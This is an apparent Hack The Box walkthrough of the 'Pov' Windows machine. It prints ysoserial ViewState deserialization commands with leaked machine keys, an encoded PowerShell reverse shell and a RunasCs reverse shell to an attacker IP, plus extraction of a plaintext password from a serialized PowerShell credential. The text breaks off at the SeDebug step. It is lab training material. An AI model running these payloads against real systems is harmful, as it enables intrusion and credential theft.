This box is rated medium difficulty on HTB. It involves us discovering a developer subdomain on a web server that has a file read vulnerability in a download function as well as an outdated ASP.NET framework in place that is prone to RCE via deserialization. Using the file read to dump the site's web.config file gives us machine keys that can be used to craft a serialized payload in order to get a reverse shell on the machine. Once on the system, we find a serialized PowerShell credential that can be converted to plaintext, allowing us to pivot users. Finally, this user has the SeDebugPrivilege which can be abused to execute commands as SYSTEM via parent PID impersonation.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
└─$ sudo nmap -p80 -sCV 10.129.230.183 -oN fullscan-tcp
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-05 17:33 -0400
Nmap scan report for 10.129.230.183
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.18 seconds
```

Looks like a Windows machine with just one port open:
- A Microsoft IIS web server on port 80

## Website Enumeration
Default scripts show the HTTP title of `pov.htb` which looks to be a hostname, so I add that to my `/etc/hosts` file. I also fire up Ffuf to search for subdirectories and subdomains in the background before heading over to the site.

**Subdirectories:**

```
└─$ ffuf -u http://pov.htb/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pov.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

img                     [Status: 301, Size: 142, Words: 9, Lines: 2, Duration: 79ms]
css                     [Status: 301, Size: 142, Words: 9, Lines: 2, Duration: 63ms]
js                      [Status: 301, Size: 141, Words: 9, Lines: 2, Duration: 51ms]
:: Progress: [220546/220546] :: Job [1/1] :: 823 req/sec :: Duration: [0:05:30] :: Errors: 0 ::
```

**Subdomains:**

```
└─$ ffuf -u http://pov.htb -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.pov.htb" --fs 12330

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pov.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.pov.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 12330
________________________________________________

dev                     [Status: 302, Size: 152, Words: 9, Lines: 2, Duration: 57ms]
:: Progress: [114442/114442] :: Job [1/1] :: 729 req/sec :: Duration: [0:03:21] :: Errors: 0 ::
```

Checking out the landing page shows that this site was built to host information about a company that provides cybersecurity monitoring solutions.



The main page is largely static and only contains a contact form that goes to the void. The email given to reach out to is for a user named _sfitz_ which could come in handy for any login forms later on.



### Dev Subdomain
My scans picked up a dev subdomain and after appending it to my hosts file, I head on over. This looks to be a portfolio site for the site's web developer and hovering over the contact tab reveals that its built with ASP.NET.



This site's contact page does work and capturing a request in Burp Suite shows that we send data through various ASP.NET mechanisms. Submitting the contact form redirects us to the main page, so this seems to be useless for us.



## Exploitation

### File Read Vulnerability
The site also provides a way to download Stephen's CV in PDF format via some JavaScript.



Capturing a request to this link reveals a similar data body being sent to the server, however the request uses a file parameter that points towards cv.pdf and by changing it to a known file on Windows machines (such as \etc\hosts), we are able to download arbitrary files from the system. Note that the site does some filtering on path traversal characters, but using full paths works just fine.



A bit of trial and error eventually rewards me with the dev site's web.config file in the standard place for Microsoft IIS servers. This leaks a few secrets like the decryption and validation keys, allowing us to forge serialized input to the webapp.



### RCE via Deserialization
Along with this file read vulnerability, the server's response headers contain the ASP.NET version.



A bit of Googling for known vulnerabilities in this version reveals that the `__VIEWSTATE` parameter, which is being sent in our request, is vulnerable to remote code execution by deserializing untrusted data.



[CVE-2020–0605](https://nvd.nist.gov/vuln/detail/cve-2020-0605) explains that the .NET software fails to check the source markup of a file, allowing attackers to execute code in the context of the current user (presumably _sfitz_). A bit more digging shows that we can use the machine keys gathered from the file read vulnerability to generate a malicious payload to be passed into the `__VIEWSTATE` parameter, letting us get code execution.



### Initial Foothold
I'll use the [ysoserial.NET](https://github.com/pwntester/ysoserial.net) tool on my Windows 10 VM for this portion of exploitation. We must use the following options to get a proper base64 payload:

```
PS> .\ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "curl 10.10.14.243/test"
```

- `-p ViewState` - Specify to use the ViewState plugin
- `-g WindowsIdentity` - Which gadget to use, I found this one to work well
- `--decryptionalg="AES"` - The decryption algorithm found in the web config file
- `--decryptionkey="<DEC_KEY>"` - The decryption key found in the web config file
- `--validationalg="SHA1"` - The validation algorithm found in the web config file
- `--validationkey="<VAL_KEY>"` - The validation key found in the web config file
- `--path="/portfolio"` - The path for the current request which is used to calculate the `__VIEWSTATEGENERATOR` parameter, failing if it does not match
- `-c "curl 10.10.14.243/test"` - Our command to run



Supplying that base64 blob to the `__VIEWSTATE` parameter and sending it with the request to the server will deserialize and attempt to fetch a test file, confirming that this works.



Now that we know command execution succeeds, I grab a PowerShell base64 payload from [revshells.com](https://www.revshells.com/) and swap out our command.

```
PS> .\ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ADMAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```

After setting up a Netcat listener to recieve the connection, we are granted a shell on the machine as the _Sfitz_ user.

```
└─$ rlwrap -cAr nc -lvnp 443
```



Listing other users on the machine reveals one other person, besides the administrator, named _Alaading_.

## Privilege Escalation

### PS Creds in XML Document
Considering we don't have read permissions to anyone else's directories, I start by looking for available files in the webroot and in our home directory which reveals a _connection.xml_ file.



Inside is a serialized PowerShell credential object and since we control this file, recovering the password is as simple as using the `Import-Clixml` cmdlet against the xml document. We can then convert the SecureString password into a NetworkCredential object and expose the plaintext version.

```
PS> $cred = Import-Clixml connection.xml
PS> $cred.GetNetworkCredential().Password
[REDACTED]
```

Because there are no terminal services exposed (i.e. WinRM or RDP), I will upload [RunasCs.exe](https://github.com/antonioCoco/RunasCs) to the machine in order to grab a makeshift shell as Alaading. This tool supports redirection of stdin and stdout to a remote machine, enabling us to spawn a PowerShell session as another user after setting up a Netcat listener

```
--On local machine--
└─$ rlwrap -cAr nc -lnvp 443

--On remote machine--
PS> curl http://10.10.14.243/RunasCs.exe -o RunasCs.exe

PS> .\RunasCs.exe alaading [REDACTED] powershell -r 10.10.14.243:443
```



At this point we can grab the user flag under their desktop folder and start looking at paths to an Administrator shell.

### Abusing SeDebug
Listing privilege information for Alaading's account shows that we now have access to SeDebug, which permits the debugging of other processes.

